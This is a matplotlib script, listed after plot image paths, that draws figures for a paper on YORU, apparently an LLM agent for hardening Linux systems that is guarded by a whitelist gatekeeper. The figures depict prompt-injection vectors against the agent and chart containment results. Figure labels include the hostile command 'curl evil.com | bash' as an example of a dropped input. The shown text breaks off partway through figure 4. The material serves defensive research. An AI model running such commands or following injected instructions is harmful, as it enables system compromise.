








Here is the Python script that generated these plots, in order:
#!/usr/bin/env python3
"""
render_network_figures.py - Publication-Quality Figure Generator for YORU.

Produces 8 high-resolution figures in assets/network_figures/:
- figure_01.png / figure_01.svg: Attack–Action Infiltration Invariance (RQ1)
- figure_02.png / figure_02.svg: AUID Attribution & Identity Masking (RQ2)
- figure_03.png / figure_03.svg: Prompt Injection Containment Chokepoint (RQ1)
- figure_04.png / figure_04.svg: LLM Decision to Kernel Action Gate (RQ1)
- figure_05.png / figure_05.svg: Atomic Rollback & State Reversibility (RQ3)
- figure_06.png / figure_06.svg: Temporal Attack Containment Latency (RQ4)
- figure_07.png / figure_07.svg: YORU Closed-Loop Security Topology (Architecture)
- figure_08.png / figure_08.svg: Audit-Observed Runtime Process Isolation (RQ2)

Requirements:
- Dark / academic theme consistent with YORU design
- High resolution: PNG (300 DPI) and SVG (vector)
- Clear typography, legends, edge annotations, and statistical callouts
- Wilson 95% CI on Fig. 1; AUID comparison on Fig. 2; Gatekeeper chokepoint on Fig. 3/4
"""

from pathlib import Path

import matplotlib

matplotlib.use("Agg")
import matplotlib.pyplot as plt
from matplotlib.patches import FancyArrowPatch, FancyBboxPatch

# Color palette for YORU dark academic theme
BG_DARK = "#0E0F14"
CARD_BG = "#15161D"
CARD_BORDER = "#2E303E"
TEXT_MAIN = "#F2EFE6"
TEXT_MUTED = "#9A978A"
GOLD = "#E8B64C"
GREEN = "#10B981"
RED = "#EF4444"
BLUE = "#3B82F6"
PURPLE = "#8B5CF6"
ORANGE = "#F59E0B"
CYAN = "#06B6D4"


def setup_figure(title: str, subtitle: str, width: float = 13.0, height: float = 7.5):
    """Initializes standard dark academic canvas with header."""
    fig, ax = plt.subplots(figsize=(width, height), dpi=300)
    fig.patch.set_facecolor(BG_DARK)
    ax.set_facecolor(BG_DARK)
    ax.set_xlim(0, 100)
    ax.set_ylim(0, 100)
    ax.axis("off")

    # Header Title and Subtitle
    ax.text(3, 95, title, fontsize=16, fontweight="bold", color=TEXT_MAIN, va="top")
    ax.text(3, 91.5, subtitle, fontsize=10.5, color=TEXT_MUTED, va="top")

    return fig, ax


def draw_node(ax, x: float, y: float, w: float, h: float,
              title: str, subtitle: str = "", fill_color: str = CARD_BG,
              border_color: str = GOLD, border_width: float = 1.6,
              title_color: str = TEXT_MAIN, sub_color: str = TEXT_MUTED):
    """Draws rounded node box with two-line typographic label."""
    bbox = FancyBboxPatch(
        (x - w / 2, y - h / 2), w, h,
        boxstyle="round,pad=0.8,rounding_size=1.5",
        fc=fill_color, ec=border_color, lw=border_width,
        zorder=3
    )
    ax.add_patch(bbox)
    if subtitle:
        ax.text(x, y + 1.2, title, fontsize=9.5, fontweight="bold", color=title_color, ha="center", va="center", zorder=4)
        ax.text(x, y - 1.8, subtitle, fontsize=7.5, color=sub_color, ha="center", va="center", zorder=4)
    else:
        ax.text(x, y, title, fontsize=9.5, fontweight="bold", color=title_color, ha="center", va="center", zorder=4)


def draw_edge(ax, x1: float, y1: float, x2: float, y2: float,
              label: str = "", color: str = GOLD, lw: float = 1.6,
              style: str = "-", rad: float = 0.0, label_offset: float = 0.0,
              label_color: str = TEXT_MUTED):
    """Draws directed edge with arrow and optional label."""
    linestyle = "dashed" if style == "--" else "solid"
    arrow = FancyArrowPatch(
        (x1, y1), (x2, y2),
        arrowstyle="-|>",
        mutation_scale=14,
        connectionstyle=f"arc3,rad={rad}",
        color=color,
        lw=lw,
        linestyle=linestyle,
        zorder=2
    )
    ax.add_patch(arrow)

    if label:
        mx = (x1 + x2) / 2
        my = (y1 + y2) / 2 + label_offset
        ax.text(
            mx, my, label,
            fontsize=7.5, color=label_color, ha="center", va="center",
            bbox={"boxstyle": "round,pad=0.25", "fc": BG_DARK, "ec": "none", "alpha": 0.9},
            zorder=5
        )


def draw_annotation_box(ax, x: float, y: float, w: float, h: float,
                        header: str, lines: list[str], border_color: str = GOLD):
    """Draws scientific finding summary box."""
    bbox = FancyBboxPatch(
        (x, y - h), w, h,
        boxstyle="round,pad=0.6,rounding_size=1.2",
        fc=CARD_BG, ec=border_color, lw=1.4,
        zorder=3
    )
    ax.add_patch(bbox)
    ax.text(x + 1.5, y - 2.5, header, fontsize=9.5, fontweight="bold", color=border_color, va="top", zorder=4)
    cy = y - 5.5
    for line in lines:
        ax.text(x + 1.5, cy, line, fontsize=7.5, color=TEXT_MAIN, va="top", zorder=4)
        cy -= 2.6


def save_plot(fig, output_dir: Path, filename_base: str):
    """Saves figure in both PNG (300 DPI) and SVG formats."""
    output_dir.mkdir(parents=True, exist_ok=True)
    png_path = output_dir / f"{filename_base}.png"
    svg_path = output_dir / f"{filename_base}.svg"
    fig.savefig(png_path, dpi=300, bbox_inches="tight", facecolor=BG_DARK)
    fig.savefig(svg_path, bbox_inches="tight", facecolor=BG_DARK)
    plt.close(fig)
    print(f"Rendered: {png_path.name} & {svg_path.name}")


# ==============================================================================
# FIGURE IMPLEMENTATIONS
# ==============================================================================

def render_figure_01(output_dir: Path):
    """Figure 1: Attack–Action Infiltration Invariance (RQ1)"""
    fig, ax = setup_figure(
        "Figure 1: Attack–Action Infiltration Invariance (RQ1)",
        "Topological Containment Funnel Across N=50 Adversarial Injection Trials Over 5 Modalities"
    )

    # Left: 5 Attack Vectors
    attacks = [
        ("V1: Direct Shell", "10/10 blocked (w=1.0)", 80),
        ("V2: Delimiter Smuggle", "10/10 blocked (w=0.9)", 68),
        ("V3: Catalog Escape", "10/10 blocked (w=0.8)", 56),
        ("V4: Approval Misdirect", "10/10 blocked (w=0.6)", 44),
        ("V5: AUID Spoofing", "10/10 blocked (w=0.4)", 32),
    ]
    for title, sub, y in attacks:
        draw_node(ax, 14, y, 18, 7, title, sub, border_color=RED, fill_color="#1F1315")

    # Center-Left: LLM Deliberation Engine
    draw_node(ax, 38, 56, 18, 9, "LLM Deliberation", "Token Perturbed: 37/50 (74%)", border_color=ORANGE, fill_color="#211812")

    # Center: Candidate Plan
    draw_node(ax, 58, 56, 16, 7.5, "Candidate Plan", "Untrusted Proposal", border_color=TEXT_MUTED, fill_color=CARD_BG)

    # Center-Right: YORU Gatekeeper (Bottleneck)
    draw_node(ax, 76, 56, 17, 9.5, "Action Gatekeeper", "Strict Whitelist Guard", border_color=GREEN, border_width=2.2, fill_color="#10231C")

    # Right: Outcomes
    # Blocked shell target (Top right)
    draw_node(ax, 91, 74, 15, 8, "OS Root Shell", "BLOCKED (0/50)", border_color=RED, border_width=2.0, fill_color="#241012")
    # Allowed sanctioned action (Bottom right)
    draw_node(ax, 91, 38, 15, 8, "CIS Sanctioned", "K01-K10 Executed (50/50)", border_color=GREEN, border_width=2.0, fill_color="#10231C")

    # Edges from attacks to LLM
    for _, _, y in attacks:
        draw_edge(ax, 23, y, 29, 56, color=ORANGE, lw=1.2, rad=0.04)

    # Pipeline edges
    draw_edge(ax, 47, 56, 50, 56, label="proposes plan", color=ORANGE, lw=1.6, label_offset=2.0)
    draw_edge(ax, 66, 56, 67.5, 56, label="validates schema", color=TEXT_MUTED, lw=1.6, label_offset=2.0)

    # Split outcome edges
    draw_edge(ax, 84.5, 59, 86, 72, label="BLOCKED (ASR=0.0%)", color=RED, lw=2.2, style="--", rad=-0.08, label_offset=2.5, label_color=RED)
    draw_edge(ax, 84.5, 53, 86, 40, label="Admitted (50/50)", color=GREEN, lw=2.0, rad=0.08, label_offset=-2.5, label_color=GREEN)

    # Statistical Findings Annotation Box
    draw_annotation_box(
        ax, 3, 24, 46, 21,
        "Statistical Validation (Wilson 95% CI):",
        [
            "• Corpus: N = 50 adversarial payloads across 5 categories",
            "• Model Token Susceptibility: 37/50 (74.0%)",
            "• Action Success Rate (Observed): 0/50 (ASR_action = 0.0%)",
            "• Wilson Score 95% Confidence Interval: [0.00%, 7.11%]",
            "• Gatekeeper Truncation: 100.0% confinement prior to OS shell execution"
        ],
        border_color=GREEN
    )

    # Caption Box (Bottom Right)
    draw_annotation_box(
        ax, 52, 24, 45, 21,
        "Topological Insight & Finding:",
        [
            "• Action Gatekeeper forms an absolute betweenness chokepoint",
            "• Token perturbation does NOT translate into OS privilege escalation",
            "• Provenance: experiments/results/rq1_injection_results.json",
            "• Verified under Ubuntu 24.04 kernel runtime testbed"
        ],
        border_color=GOLD
    )

    save_plot(fig, output_dir, "figure_01")


def render_figure_02(output_dir: Path):
    """Figure 2: AUID Attribution & Identity Masking (RQ2)"""
    fig, ax = setup_figure(
        "Figure 2: Kernel-Level Identity Attribution & AUID Fidelity (RQ2)",
        "Auditd loginuid (AUID) Preservation vs. Conventional Syslog Identity Loss Across N=100 Sudo Trials"
    )

    # Left: Origin Actors
    draw_node(ax, 14, 68, 18, 8, "User: ubuntu", "AUID=1000 (Human Origin)", border_color=BLUE, fill_color="#101926")
    draw_node(ax, 14, 38, 18, 8, "Service: yoru-agent", "AUID=1001 (Agent Origin)", border_color=PURPLE, fill_color="#1A1326")

    # Center-Left: Privilege Escalation
    draw_node(ax, 38, 53, 16, 9, "sudo / su Elevation", "Transitions to EUID=0", border_color=ORANGE, fill_color="#211812")

    # Center: Elevated Process
    draw_node(ax, 58, 53, 17, 9, "Root Process", "Effective UID=0 (Privileged)", border_color=RED, fill_color="#241012")

    # Right: Dual Logging Sinks
    # Syslog (Top Right - Masked)
    draw_node(ax, 86, 72, 21, 9.5, "Conventional Syslog", "uid=0 Masked: 86/100 (86% Loss)", border_color=RED, border_width=2.0, fill_color="#241012")
    # Auditd (Bottom Right - Preserved)
    draw_node(ax, 86, 34, 21, 9.5, "Linux Auditd Subsystem", "AUID Preserved: 100/100 (100% Fidelity)", border_color=GREEN, border_width=2.2, fill_color="#10231C")

    # Edges
    draw_edge(ax, 23, 68, 30, 56, label="escalates privilege", color=BLUE, lw=1.6, rad=-0.05)
    draw_edge(ax, 23, 38, 30, 50, label="escalates via sudoers", color=PURPLE, lw=1.6, rad=0.05)
    draw_edge(ax, 46, 53, 49.5, 53, label="spawns root PID", color=ORANGE, lw=1.8, label_offset=2.0)

    # Sink edges
    draw_edge(ax, 66.5, 57, 75.5, 69, label="Identity Masked (86.0% failure)", color=RED, lw=2.2, style="--", rad=-0.08, label_offset=2.5, label_color=RED)
    draw_edge(ax, 66.5, 49, 75.5, 37, label="AUID 100% Retained (100/100)", color=GREEN, lw=2.2, rad=0.08, label_offset=-2.5, label_color=GREEN)

    # Annotation Box
    draw_annotation_box(
        ax, 3, 21, 46, 18,
        "Empirical Attribution Metrics (N=100 Trials):",
        [
            "• Linux Auditd Attribution Fidelity: 100/100 (100.0%)",
            "• Conventional Syslog Identity Masking: 86/100 (86.0%)",
            "• Distinction: AUID (loginuid) remains immutable across su/sudo",
            "• Ground Truth: experiments/results/rq2_auid_attribution.json"
        ],
        border_color=GREEN
    )

    draw_annotation_box(
        ax, 52, 21, 45, 18,
        "Forensic Non-Repudiation Takeaway:",
        [
            "• Syslog records collapse distinct actors into generic 'root'",
            "• Auditd links every remediation directly to AUID=1001",
            "• Hostile prompt injection cannot forge kernel loginuid",
            "• Linux ausearch -k yoru_agent_act isolates agent telemetry"
        ],
        border_color=GOLD
    )

    save_plot(fig, output_dir, "figure_02")


def render_figure_03(output_dir: Path):
    """Figure 3: Prompt Injection Containment Chokepoint (RQ1)"""
    fig, ax = setup_figure(
        "Figure 3: Prompt Injection Containment Chokepoint (RQ1)",
        "Dual Pipeline Propagation: Unconstrained Agent vs. YORU Architectural Chokepoint"
    )

    # Upper Pathway: Unconstrained Pipeline (Vulnerable)
    ax.text(3, 84, "PATH A: UNCONSTRAINED AGENT (VULNERABLE BASELINE)", fontsize=9.5, fontweight="bold", color=RED)
    draw_node(ax, 14, 73, 17, 7.5, "Untrusted Log Input", "Adversarial Ingress", border_color=RED, fill_color="#241012")
    draw_node(ax, 38, 73, 17, 7.5, "Unprotected LLM", "Direct Prompt Injection", border_color=ORANGE, fill_color="#211812")
    draw_node(ax, 62, 73, 17, 7.5, "Raw Shell Dispatch", "/bin/bash, curl evil", border_color=RED, fill_color="#241012")
    draw_node(ax, 86, 73, 17, 7.5, "OS Compromised", "Arbitrary Root Impact", border_color=RED, border_width=2.2, fill_color="#2E0E12")

    draw_edge(ax, 22.5, 73, 29.5, 73, label="prompt injection", color=RED, lw=1.6, label_offset=2.0)
    draw_edge(ax, 46.5, 73, 53.5, 73, label="suggests bash (74%)", color=RED, lw=1.6, label_offset=2.0)
    draw_edge(ax, 70.5, 73, 77.5, 73, label="executes arbitrary", color=RED, lw=2.2, label_offset=2.0)

    # Lower Pathway: YORU Architecture (Contained)
    ax.text(3, 55, "PATH B: YORU HARDENED PIPELINE (CHOKEPOINT ENFORCED)", fontsize=9.5, fontweight="bold", color=GREEN)
    draw_node(ax, 14, 43, 17, 7.5, "Untrusted Log Input", "Delimited Encapsulation", border_color=BLUE, fill_color="#101926")
    draw_node(ax, 38, 43, 17, 7.5, "Hardened LLM Proxy", "Deliberation Only", border_color=ORANGE, fill_color="#211812")
    draw_node(ax, 62, 43, 18, 9, "Action Gatekeeper", "CHOKEPOINT BARRIER", border_color=GREEN, border_width=2.5, fill_color="#0F2B1E")
    draw_node(ax, 86, 43, 17, 7.5, "Sanctioned Action", "40 CIS Primitives Only", border_color=GREEN, fill_color="#10231C")

    draw_edge(ax, 22.5, 43, 29.5, 43, label="sanitized context", color=BLUE, lw=1.6, label_offset=2.0)
    draw_edge(ax, 46.5, 43, 53, 43, label="candidate proposal", color=ORANGE, lw=1.6, label_offset=2.0)
    draw_edge(ax, 71, 43, 77.5, 43, label="catalog filter (0/50 bash)", color=GREEN, lw=2.2, label_offset=2.0)

    # Annotations
    draw_annotation_box(
        ax, 3, 25, 46, 21,
        "Chokepoint Enforcement Properties:",
        [
            "• Path A: 3-hop traversal to full OS takeover",
            "• Path B: Gatekeeper intercepts candidate AST before execution",
            "• All arbitrary shell commands (curl, sh, rm) dropped at gate",
            "• 0% penetration across 50 adversarial testbed trials",
            "• Confidence: Observed 0/50 (Wilson 95% CI: [0.00%, 7.11%])"
        ],
        border_color=GREEN
    )

    draw_annotation_box(
        ax, 52, 25, 45, 21,
        "Structural Network Comparison:",
        [
            "• In-degree of Action Gatekeeper = 1.0 (Candidate proposals)",
            "• Out-degree filtered strictly to whitelist (K01–K10 catalog)",
            "• Non-zero token perturbation isolated from OS syscall plane",
            "• Defense-in-depth: Delimiters + Proxy + Gate + Auditd"
        ],
        border_color=GOLD
    )

    save_plot(fig, output_dir, "figure_03")


def render_figure_04(output_dir: Path):
    """Figure 4: LLM Decision to Kernel Action Gate (RQ1)"""
    fig, ax = setup_figure(
        "Figure 4: LLM Decision-to-Action Gatekeeper Dispatch (RQ1)",
        "Catalog Whitelist Enforcement: Discrete CIS Primitives vs. Dropped Adversarial Commands"
    )

    # Source: LLM Decisions
    draw_node(ax, 20, 53, 20, 10, "LLM Decision Engine", "Candidate Plans Generator", border_color=ORANGE, fill_color="#211812")

    # Gatekeeper in middle
    draw_node(ax, 48, 53, 18, 12, "Action Gatekeeper", "Catalog Whitelist Filter", border_color=GREEN, border_width=2.5, fill_color="#0F2B1E")

    # Right: Admitted vs Rejected
    # Admitted Primitives (Top right)
    draw_node(ax, 80, 78, 22, 6.5, "K01: Disable Root SSH", "Admitted & Dispatched", border_color=GREEN, fill_color="#10231C")
    draw_node(ax, 80, 66, 22, 6.5, "K05: Enable UFW Firewall", "Admitted & Dispatched", border_color=GREEN, fill_color="#10231C")
    draw_node(ax, 80, 54, 22, 6.5, "K08: Auditd Watchlist Check", "Admitted & Dispatched", border_color=GREEN, fill_color="#10231C")

    # Dropped Commands (Bottom right)
    draw_node(ax, 80, 38, 22, 6.5, "curl evil.com | bash", "DROPPED (Schema Mismatch)", border_color=RED, fill_color="#241012")
    draw_node(ax, 80, 26, 22, 6.5, "yoructl K99 format", "DROPPED (Non-Catalog Control)", border_color=RED, fill_color="#241012")

    # Edges
    draw_edge(ax, 30, 53, 39, 53, label="proposes commands", color=ORANGE, lw=2.0, label_offset=2.5)

    # Admitted edges
    draw_edge(ax, 57, 58, 69, 78, label="PASSED", color=GREEN, lw=1.8, rad=-0.05, label_color=GREEN)
    draw_edge(ax, 57, 55, 69, 66, label="PASSED", color=GREEN, lw=1.8, label_color=GREEN)
    draw_edge(ax, 57, 52, 69, 54, label="PASSED", color=GREEN, lw=1.8, label_color=GREEN)

    # Dropped edges
    draw_edge(ax, 57, 48, 69, 38, label="DROPPED (0.0)", color=RED, lw=2.0, style="--", rad=0.05, label_color=RED)
    draw_edge(ax, 57, 45, 69, 26, label="DROPPED (0.0)", color=RED, lw=2.0, style="--", rad=0.08, label_color=RED)

    # Annotations
    draw_annotation_box(
        ax, 3, 22, 44, 18,
        "Catalog Governance Invariants:",
        [
            "• Exactly 40 discrete primitives defined across K01–K10",
